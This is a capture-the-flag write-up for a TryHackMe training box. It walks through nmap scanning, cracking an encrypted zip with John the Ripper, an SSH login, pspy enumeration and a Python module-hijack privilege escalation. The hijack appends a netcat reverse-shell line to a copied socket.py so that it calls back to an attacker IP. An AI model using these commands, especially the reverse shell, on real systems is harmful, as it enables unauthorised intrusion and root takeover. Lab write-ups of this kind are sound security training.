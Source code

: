 # THM SecDSM-Dec22-MiniCTF Writeup

​		November 22<sup>nd</sup> 2022

​		writeups@centraliowacybersec.com

​		[Box Link](https://tryhackme.com/jr/secdsmdecember22minictf)

 
## Skills Needed or Learned
1. Web Service Enumeration.
1. Cracking an encrypted zip file.
1. Linux Privesc with Permission Misconfiguration


### Description:

This is the official writeup for the box. This is my first boot2root for a public audience so feedback is highly desired! Have fun and please reach out to me for any questions related to the box!

### Difficulty: Easy

# Hosts File

`sudo nano /etc/hosts`

add a line with the remote IP and the dns entry


`<IP> secdsm.thm`

# Enumeration

Start with basic and advanced NMAP scans on the box.

`nmap -v secdsm.thm`

![image](https://user-images.githubusercontent.com/43767555/203445905-4d04de66-d01c-48f0-9407-229137a38694.png)

`nmap -p 22,80 -A -sC -sV -v secdsm.thm`

![image](https://user-images.githubusercontent.com/43767555/203445915-0b21ff59-a63c-4ecb-8c61-27616b5fb5ab.png)

HTTP and SSH are open. HTTP is always a pretty interesting place to start.

After spending some time on the site, a lot of links don't go anywhere but one does go to a broken link which is very interesting.

![image](https://user-images.githubusercontent.com/43767555/203446098-4fd83d1b-62b0-48ab-aa63-518c8a3758bf.png)
![image](https://user-images.githubusercontent.com/43767555/203446104-ca0609f7-04f1-4e04-a431-314c465fe0e6.png)

I checked the link in burp with the same results.

There are two routes here.
1. Edit the hosts file to match the url in the broken link
1. Edit the link to point to the machine's known IP.

![image](https://user-images.githubusercontent.com/43767555/203446466-85f0dc87-dd5d-4d88-81d1-b8de05635a98.png)

This got me a download for the file.

![image](https://user-images.githubusercontent.com/43767555/203446486-7b086bfa-12b4-49fa-822a-1b8f81d5d705.png)

# Foothold

The file is encrypted but it seems to hold something called backup.txt.

![image](https://user-images.githubusercontent.com/43767555/203446633-38e82173-bffe-4005-8558-a5e61838193f.png)

![image](https://user-images.githubusercontent.com/43767555/203446679-2d9c099d-892a-4ede-80be-2de595097022.png)

This command will only work out of the box on later versions of Kali. You can download or search for this on your machine as well.

`zip2john temp.zip > hash`
![image](https://user-images.githubusercontent.com/43767555/203447619-fba66001-9dea-459e-b14c-ff1b3813db41.png)

Next is to crack this hash with john.

`john hash --wordlist=/usr/share/wordlist/rockyou.txt`

![image](https://user-images.githubusercontent.com/43767555/203447633-1cc3421b-1cd5-427a-8e26-46856d178fff.png)

This crack was succesful!

`unzip temp.zip`
`<password>`

![image](https://user-images.githubusercontent.com/43767555/203447877-2fb0f021-cce0-4554-bd42-55ef4394cd2f.png)
![image](https://user-images.githubusercontent.com/43767555/203447889-209d36d1-c1a6-4e88-8e9f-892d19423b55.png)

This file contained what looks like user creds that we can try on the open SSH port.

Back on the Attack machine, attempt to login to the.

`ssh kinder@secdsm.thm`

![image](https://user-images.githubusercontent.com/43767555/203448008-5ecb6140-d47d-4a73-84c6-7ffdeab0f424.png)

Here we can see the user.txt file, first flag down!

![image](https://user-images.githubusercontent.com/43767555/203448073-aaf7cf10-878b-428f-9e19-0df367aa9904.png)

# Privilege Escalation

The next part comes with Linux Privesc enumeration but we need to look for Cron Jobs or follow the proccesses on the machine to see what's happeneing behind the scenes.

On the attackbox get pspy downloaded from github.

`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s`

From here we can host a temp pthon webservber to move it onto the victim machine.

`sudo python3 -m http.server 80`

![image](https://user-images.githubusercontent.com/43767555/203450435-ac957f3b-9332-422e-b93d-2fefde30d730.png)

Download it onto the victim machine.

`wget http://192.168.59.131/pspy64s && chmod 777 pspy64s`

![image](https://user-images.githubusercontent.com/43767555/203450549-725b9440-c1fe-4192-888b-ea5ce0a8cbda.png)
![image](https://user-images.githubusercontent.com/43767555/203450555-0e39858b-fbb9-4766-89f5-fe40d1b6c38f.png)

This succesfully exposed a root cron job that we couldn't see from the public /etc/crontab file.

![image](https://user-images.githubusercontent.com/43767555/203450599-59ec8156-ef63-4932-9c74-2ac168593ada.png)

This shows some interest to this globally writeable directory inside of /opt/

![image](https://user-images.githubusercontent.com/43767555/203450667-94dad0e8-3cbb-4ffc-a3e8-a6d7ff62b0c6.png)

updog.py is not globally writeable though.

I wonder what updog.py is?

`whatis updog.py`

![image](https://user-images.githubusercontent.com/43767555/203450755-e9cbb752-7951-4cdc-80f9-095713add631.png)

Oh wait, wrong command!

![image](https://user-images.githubusercontent.com/43767555/203450769-ef6eb46f-ea13-4040-83a8-2f2791c97cab.png)

It looks like this script is checking if port 80 is online on localhost. If it isn't then it restarts the apache service. This is all pretty simple but on it's own not exploitable. What is exploitable is the writeable directory the file lives in.

Python imports modules in a specific order and iut is possible to exploit this given the right parameters.
1.    The current directory (same directory as script doing the importing).
1.    The library of standard modules.
1.    The paths defined in sys.path.*

[Source](https://www.webucator.com/article/how-python-finds-imported-modules)

Let's pull in the real sockets.py file into the directory and modify it to exploit this configuration vulnerability on the machine.

`find / -name socket.py 2>/dev/null`
`cp /usr/lib/python3.10/socket.py .`


![image](https://user-images.githubusercontent.com/43767555/203451434-4f756d72-8933-4466-a17f-fe6a1e57ae2d.png)

With the file succesfully pulled into the directory we can now build a reverse shell back to the attackbox.

[Revshells.com](https://revshells.com)

![image](https://user-images.githubusercontent.com/43767555/203451481-0b4b7008-3976-4d6e-97f6-9d338cc80362.png)

I checked for nc before building the shell.

`which nc`

![image](https://user-images.githubusercontent.com/43767555/203454997-2c92d5d6-9325-4a98-9e23-89e9b2c34734.png)


`echo 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.59.131 80 >/tmp/f")' >> socket.py && tail -n 10 socket.py`

![image](https://user-images.githubusercontent.com/43767555/203455333-7cacc5bd-72e6-4a22-ad10-70cb465abe84.png)

This pops a root shell on the attackbox where the root flag can be grabbed to finish!

![image](https://user-images.githubusercontent.com/43767555/203455377-9af29b7d-8ad6-4988-97ce-8573f8344412.png)
